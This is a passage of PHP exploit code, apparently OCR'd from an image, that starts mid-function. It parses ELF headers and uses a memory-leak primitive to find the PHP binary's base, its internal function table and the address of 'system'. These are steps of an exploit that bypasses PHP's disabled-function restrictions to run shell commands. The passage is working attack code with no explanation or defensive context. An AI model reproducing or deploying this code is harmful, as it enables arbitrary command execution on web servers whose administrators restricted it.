 ```
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
```